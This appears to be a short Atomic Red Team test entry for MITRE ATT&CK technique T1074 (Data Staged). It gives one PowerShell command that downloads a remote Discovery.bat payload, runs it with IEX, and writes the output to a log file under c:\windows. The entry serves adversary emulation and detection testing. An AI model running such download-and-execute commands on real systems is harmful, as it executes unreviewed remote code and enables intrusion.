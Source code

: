 # Data Staged

MITRE ATT&CK Technique: [T1074](https://attack.mitre.org/wiki/Technique/T1074)

## Stage data from Discovery.bat

### Input:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/Discovery.bat')" > c:\windows\pi.log
